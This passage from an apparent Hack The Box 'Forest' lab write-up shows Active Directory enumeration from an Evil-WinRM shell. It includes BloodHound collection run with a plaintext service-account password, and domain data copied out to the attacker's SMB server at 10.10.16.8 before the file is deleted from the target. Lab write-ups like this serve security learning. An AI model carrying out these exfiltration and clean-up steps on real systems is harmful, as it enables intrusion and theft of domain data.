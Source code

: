 ```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir


    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/14/2022   7:59 AM          15334 20220114075917_BloodHound.zip
-a----        1/14/2022   7:59 AM          23725 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
```

Next, we will need to transfer the zip folder back to our local machine. To do that we will first need to start a smbserver on our local machine using impacket-smbserver. Afterwards, we will have to first connect to the shares on our smbserver and copy the zip folder to the smbserver. After the file has been transferred successfully, we will then delete the zip folder and disconnect the shares from our local smbserver.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-smbserver share forest -smb2support
-------------------------------------------------------------
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net use \\10.10.16.8\share
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> copy 20220114075917_BloodHound.zip \\10.10.16.8\share
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> del 20220114075917_BloodHound.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net use /d \\10.10.16.8\share
\\10.10.16.8\share was deleted successfully.
```

Lastly, we will upload the zip folder onto bloodhound for analysis. From bloodhound, we can see that the user svc-alfresco is part of the Service Accounts group, which is in turn part of the Privileged IT Accounts group. The Privileged IT Accounts group is also part of the Account Operators group. 

![Group graph](https://github.com/joelczk/writeups/blob/main/HTB/Images/Forest/group_graph.png)
